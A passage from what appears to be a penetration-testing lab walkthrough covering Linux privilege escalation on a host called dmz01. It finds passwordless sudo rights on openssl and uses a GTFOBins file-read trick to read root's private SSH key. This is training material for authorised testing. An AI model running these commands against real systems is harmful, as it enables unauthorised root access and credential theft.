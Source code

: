  =&gt; / is using 95.8% of 13.72GB

* Super-optimized for small spaces - read how we shrank the memory
  footprint of MicroK8s to make it the smallest full K8s around.

  https://ubuntu.com/blog/microk8s-memory-optimisation

97 updates can be applied immediately.
30 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Wed Jun  1 07:08:59 2022 from 127.0.0.1
$ /bin/bash -i
srvadm@dmz01:~
</code></pre>
<p>Now that we have a stable connection via SSH, we can start enumerating further.</p>
<hr/>
<h2>Local Privilege Escalation</h2>
<p>We could upload an enumeration script to the system such as <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPEAS</a>, but I always try two simple commands after gaining access: <code>id</code> to see if the compromised account is in any privileged local groups, and <code>sudo -l</code> to see if the account has any type of <code>sudo</code> privileges to run commands as another user or as root. By now, we have practiced many privilege escalation techniques in both Academy modules and perhaps some boxes on the HTB main platform. It's great to have these techniques in our back pocket, especially if we land on a very hardened system. However, we are dealing with human administrators, and humans make mistakes and also go for convenience. More often than not, my path to escalating privileges on a Linux box during a pentest was not some wildcard attack leveraging tar and a cron job, but rather something simple such as <code>sudo su</code> without a password to gain root privileges or not having to escalate privileges because the service I exploited was running in the context of the root account. It's still necessary to understand and practice as many techniques as possible because, as said a few times now, every environment is different, and we want to have the most comprehensive toolkit possible at our disposal.</p>
<pre><code class="language-shell-session">srvadm@dmz01:~$ sudo -l

Matching Defaults entries for srvadm on dmz01:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User srvadm may run the following commands on dmz01:
  (ALL) NOPASSWD: /usr/bin/openssl
</code></pre>
<p>Running <code>sudo -l</code>, we see that we can run the <code>/usr/bin/openssl</code> command as root without requiring a password. As suspected, there is a <a href="https://gtfobins.github.io/gtfobins/openssl/">GTFOBin</a> for the OpenSSL binary. The entry shows various ways this can be leveraged: to upload and download files, gain a reverse shell, and read and write files. Let's try this to see if we can grab the SSH private key for the root user. This is ideal over just attempting to read the <code>/etc/shadow</code> file or obtain a reverse shell as the <code>ida_rsa</code> private key file will grant us SSH back into the environment as the root user, which is perfect for setting up our pivots.</p>
<p>The entry states that we can use the binary for privileged file reads as follows:</p>
<pre><code class="language-shell-session">LFILE=file_to_read
openssl enc -in "$LFILE"
</code></pre>
<p>Let's give it a try</p>
<pre><code class="language-shell-session">srvadm@dmz01:~$ LFILE=/root/.ssh/id_rsa
srvadm@dmz01:~$ sudo /usr/bin/openssl enc -in $LFILE
